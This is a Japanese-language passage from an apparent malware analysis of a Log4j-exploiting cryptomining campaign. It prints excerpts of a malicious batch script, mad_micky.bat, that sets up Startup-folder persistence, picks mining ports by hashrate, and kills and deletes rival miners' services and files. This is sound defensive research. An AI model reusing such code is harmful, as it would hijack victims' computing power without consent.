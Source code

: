 

<p>実行可能ファイル Logback.exe は、別の XMRig マイニング ツールです。config.json ファイルも同じ韓国の IP からダウンロードされました。この後、cmd.exe と wmic コマンドを使用してマイナーを構成しました。</p>



<p>これらのファイルのダウンロードとマイナーの構成に続いて、Pastebin への追加の接続が行われました。</p>



<figure class="wp-block-image"><img src="https://assets-global.website-files.com/626ff4d25aca2edf4325ff97/62d2a54849ba531521cac33f_1-4.jpeg" alt="Log4j の危険な脆弱性 CVE-2021-44228 を悪用する暗号通貨マイニング コードのエクスプロイト"/></figure>



<p><em>図 4: mad_micky.bat ファイルの OSINT 相関関係</em></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h3>プロセスの詳細 — mad_micky.bat ファイル</h3>



<h4>インストール</h4>



<pre class="wp-block-code"><code>set “STARTUP_DIR=%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup”
set “STARTUP_DIR=%USERPROFILE%\Start Menu\Programs\Startup”

looking for the following utilities: powershell, find, findstr, tasklist, sc
set “LOGFILE=%USERPROFILE%\mimu6\xmrig.log”
if %EXP_MONER_HASHRATE% gtr 8192 ( set PORT=18192 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 4096 ( set PORT=14906 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 2048 ( set PORT=12048 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 1024 ( set PORT=11024 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 512 ( set PORT=10512 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 256 ( set PORT=10256 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 128 ( set PORT=10128 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 64 ( set PORT=10064 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 32 ( set PORT=10032 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 16 ( set PORT=10016 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 8 ( set PORT=10008 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 4 ( set PORT=10004 &amp; goto PORT_OK)
if %EXP_MONER_HASHRATE% gtr 2 ( set PORT=10002 &amp; goto PORT_OK)
set port=10001</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h4>マイナーの準備</h4>



<pre class="wp-block-code"><code>echo &#91;*] Removing previous mimu miner (if any)
sc stop gado_miner
sc delete gado_miner
taskkill /f /t /im xmrig.exe
taskkill /f /t/im logback.exe
taskkill /f /t /im network02.exe
:REMOVE_DIR0
echo &#91;*] Removing “%USERPROFILE%\mimu6” directory
timeout 5
rmdir /q /s “USERPROFILE%\mimu6” &gt;NUL 2&gt;NUL
IF EXIST “%USERPROFILE%\mimu6” GOTO REMOVE_DIR0</code></pre>
